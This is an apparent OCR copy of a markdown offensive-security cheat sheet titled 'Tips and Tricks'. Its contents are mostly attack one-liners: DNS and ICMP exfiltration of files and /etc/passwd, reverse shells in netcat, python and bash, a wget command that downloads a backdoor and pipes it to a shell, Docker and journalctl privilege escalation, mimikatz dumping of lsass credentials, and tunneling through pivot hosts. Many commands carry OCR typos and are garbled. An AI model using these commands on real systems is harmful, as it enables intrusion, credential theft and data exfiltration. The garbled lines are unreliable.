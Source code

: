 # Tips and Tricks

## Data Transfer
### Transfer by ftp without direct access to the shell

* On victim:
```bash
#1. Hex encode the file to be transferred
   xxd -p secret file.hex
#2. Read in each line and do a DNS lookup
   forb in 'cat fole.hex '; do dig $b.shell.evilexample.com; done
```
* On attacker:
```bash
#1. Capture DNS exfil packets
   tcdpump -w /tmp/dns -s0 port 53 and host system.example.com
#2. Cut the exfilled hex from the DNS packet
   tcpdump -r dnsdemo -n | grep shell.evilexample.com | cut -f9 -d'
   cut -f1 -d'.' | uniq received. txt
#3. Reverse the hex encoding
   xxd -r -p received~.txt kefS.pgp
```

### Execution of the exfil command and transferring its information with icmp

* On victim (never ending 1 liner) :
```bash
stringz=cat /etc/passwd | od -tx1 | cut -c8- | tr -d " " | tr -d "\n";
counter=0; while (($counter = ${#stringZ})) ;do ping -s 16 -c l -p
${stringZ:$counter:16} 192.168.10.10 &&
counter=$( (counter+~6)) ;done
```

* On attacker (capture pac~ets to data.dmp and parse):
```bash
tcpdump -ntvvSxs 0 'icmp[0]=8' data.dmp
grep Ox0020 data.dmp | cut -c21- | tr -d " " | tr -d "\n" | xxd -r -p
```

### Open mail relay
```bash
telnet x.x.x.x 25
HELO x.x.x.x
MAIL FROM: me@you.com
RCPT TO: YOU@YOU.com
DATA
Thank You.
quit
```

## Reverse shell
* Netcat command (run on the attacker's system)
```bash
nc 10.0.0.1 1234 -e /bin/sh    #Linux reverse shell
nc 10.0.0.1 1234 -e cmd.exe    #Windows reverse shell
```

* Netcat command (-e may not be supported in some versions)
```bash
nc -e /bin/sh 10.0.0.1 1234
```

* Netcat command (when -e is not supported)
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/fl/bin/sh -i 2 &line l0.0.0.1 1234 /tmp/f
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.15.105 9999 >/tmp/f
```

* Python
```python
python -c 'import socket, subprocess, os; s=socket. socket (socket.AF_INET,
socket.SOCK_STREAM); s.connect( ("10.0.0.1",1234)); os.dup2 (s.fileno() ,0);
os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);
p=subprocess.call(["/bin/sh","-i"]);'
```

* Bash
```bash
bash -i & /dev/tcp/10.0.0.1/8080 0 &1
```

* Other way
```bash
wget hhtp:// server /backdoor.sh -O- | sh Downloads and runs backdoor.sh
```

## Privilege Escalation
* Privilege Escalation with Docker

You must be logged in with a user who is a member of the docker group.
```bash
docker run -v /root:/mnt -it ubuntu
```
OR
```bash
docker run --rm -it --privileged nginx bash
mkdir /mnt/fsroot
mount /dev/sda /mnt/fsroot
```

* Privilege Escalation with journalctl

The journalctl launcher must be run with more privileges such as sudo.
```bash
journalctl
!/bin/sh
```
OR
```bash
sudo journalctl
!/bin/sh
```

## Receiving the lsass process and extracting information with mimikatz
```bash
procdump.exe -accepteula -64 -ma lsass.exe  lsass.dmp
mimikatz # sekurlsa::minidump lsass.dmp
mimikatz # sekurlsa::logonPasswords f
```

## Extracting information in memory using the mimikatz plugin in volatility
```bash
volatility — plugins=/usr/share/volatility/plugins — profile=Win7SP0x86 -f halomar.dmp mimikatz
```

## Tunnel
* Fpipe - receiving information from port 1234 and transferring to port 80 2.2.2.2
```bash
fpipe.exe -l 1234 -r 80 2.2.2.2
```

* Socks.exe - Intranet scanning in Socks proxy

**On redirector (1.1.1.1):**
```bash
socks.exe -i1.1.1.1 -p 8C80
```

**On attacker:**
```bash
Modify /etc/proxjchains.conf:
Comment out: #proxy_dns
Comment out: #socks4a 127.0.0.1    9050
Add line: socks4    1.1.1.1    8080
Scan through socks proxy:
    proxychains nmap -PN -vv -sT -p 22,135,139,445 2.2.2.2
```

* Socat - receiving information from port 1234 and transferring to port 80 2.2.2.2
```bash
socat TCP4:LISTEN:1234 TCP4:2.2.2.2:80
```

* Create ssh without ssh service
```bash
./socat TCP-LISTEN:22,fork,reuseaddr TCP:172.10.10.11:22
```

* Stunnel - ssl encapsulated in nc tunnel (Windows & Linux)
  
**On attacker (client):**
```bash
#Modify /stunnel.conf
    clien = yes
    [netcat client]
    accept = 5555
    connect = -Listening IP-:4444

nc -nv 127.0.0.1 5555
```

**On victim (listening server)**
```bash
#Modify /stunnel.conf
    client = no
    [ne~cat server]
    accept = 4444
    connect = 7777

nc -vlp 7777
```

